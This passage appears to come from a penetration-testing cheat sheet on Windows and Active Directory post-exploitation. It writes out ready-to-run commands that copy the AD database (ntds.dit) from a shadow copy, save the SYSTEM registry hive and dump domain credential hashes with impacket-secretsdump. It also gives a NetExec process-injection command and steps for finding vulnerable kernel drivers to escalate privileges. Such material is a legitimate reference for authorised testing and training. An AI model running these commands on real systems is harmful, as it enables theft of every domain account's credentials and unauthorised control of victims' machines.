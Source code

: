 {% code overflow="wrap" fullWidth="true" %}
```bash
C:\Tools>vshadow.exe -nw -p  C: # note Shadow copy device name:
# copy the whole AD Database from the shadow copy to the C: drive root folder by specifying the shadow copy device name and adding the full ntds.dit path
C:\Tools>copy $SHADOW_COPY_DEVICE_NAME\windows\ntds\ntds.dit c:\ntds.dit.bak
#  to correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry
C:\>reg.exe save hklm\system c:\system.bak
# Once the two .bak files are moved to our Kali machine, we can continue extracting the credential materials with secretsdump
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
# List shadow copies using diskshadow
diskshadow list shadows all
```
{% endcode %}

## Net-NTMLv2

[#cracking-net-ntlmv2](../../enumeration/passwords.md#cracking-net-ntlmv2 "mention")

[#relaying-net-ntlmv2](../../enumeration/passwords.md#relaying-net-ntlmv2 "mention")

## Process Injection

{% code overflow="wrap" fullWidth="true" %}
```bash
nxc <IP> -u username -p password -M pi -o PID=<target_process_pid> EXEC=<command>
```
{% endcode %}

## Process Migration

[https://pentestlab.blog/tag/pid/\
https://resources.infosecinstitute.com/topics/penetration-testing/poor-mans-process-migration-windows/](https://pentestlab.blog/tag/pid/https://resources.infosecinstitute.com/topics/penetration-testing/poor-mans-process-migration-windows/)

## Windows Kernels / Drivers

{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---evaluating-vulnerable-drivers

driverquery /fo /v
PS > driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
PS > Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

# Check third-party drivers, Windows are usually more patched
# Then search for exploits
# Try to grab drivers version from C:\Windows\System32\DRIVERS or Program Files
```
{% endcode %}
